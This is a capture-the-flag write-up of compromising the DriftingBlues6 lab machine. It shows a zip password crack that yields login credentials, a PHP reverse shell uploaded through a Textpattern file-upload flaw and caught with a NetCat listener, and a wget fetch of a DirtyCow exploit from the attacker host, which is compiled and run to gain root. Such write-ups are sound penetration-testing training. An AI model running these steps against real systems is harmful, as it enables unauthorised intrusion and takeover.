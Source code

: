 # PG Play - DriftingBlues6

#### Ip: 192.168.156.219
#### Name: DriftingBlues6
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ sudo nmap -p-  --min-rate 10000 192.168.156.219 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 14:49 CDT
Nmap scan report for 192.168.156.219
Host is up (0.072s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.87 seconds
```

Heading to the site we find a simple page:

site.png

And navigating to the `/textpattern/textpattern` found in robots.txt in the Nmap results, we find a login page:

text.png

Lets kick off some directory fuxxing against the site ( note: I'm using the `--filter-status 404` flag because I was getting a ton of 404s returning:

ferox.png

Spammer seems interesting. Navigating to 192.168.156.219/spammer I'm prompted to dowload a file called spammer.zip. 

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ file spammer.zip 
spammer.zip: Zip archive data, at least v2.0 to extract, compression method=store
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ unzip spammer.zip                            
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
```

Looks like it is indeed a zip file, and it looks like it may hold credentials. Unfortunately it's password protected. 

Lets crack the password using fcrackzip:

fcrack.png

Cool, we now have the password, lets unzip it:

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ unzip spammer.zip                                              
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ cat creds.txt   
mayer:lionheart
```

Nice, we were able to use these credentials to login:

login.png

### Exploitation

Looking at possible vulnerabilities here, I find the following: https://www.exploit-db.com/exploits/50415

This is interesting because it tells us we can upload malicious files to the server, and just as importantly where those files are saved.

Lets try and use PentestMonkey's php-reverse-shell.php here rather than just a webshell.

First we'll need to update the IP and port we'll be listening on in the script:

php.png

Then we can upload it to the files section of the page:

upload.png

Next, after setting up a NetCat listener, we can trigger the exploit by navigating to http://192.168.156.219/textpattern/files/php-reverse-shell.php

The page should just hang, and if we check ur listener, we can confirm we've caught the shell back:

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.156.219] 50231
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
 15:14:32 up  2:03,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
driftingblues
```

Interesting, it appears there are no low-level users in the `/home` directory. Lets just straight for root here.

### Privilege Escalation

Lets go ahead and transfer over LinPEAS to help with enumerating a privilege escalation vector:

transfer.png

Linpeas finds the box is likely vulnerable to DirtyCow.

dc.png

Lets give it a shot:

```text
www-data@driftingblues:/tmp$ wget http://192.168.45.177/dirtycow.c
--2023-09-01 15:24:57--  http://192.168.45.177/dirtycow.c
Connecting to 192.168.45.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

100%[======================================>] 4,814       --.-K/s   in 0.007s  

2023-09-01 15:24:57 (715 KB/s) - `dirtycow.c' saved [4814/4814]

www-data@driftingblues:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ chmod +x dirty
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7f3648232000
^C
www-data@driftingblues:/tmp$ su firefart
Password: 
firefart@driftingblues:/tmp# whoami
firefart
firefart@driftingblues:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:/tmp# cd /root
firefart@driftingblues:~# pwd
/root
```

Nice that worked! Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------------------------------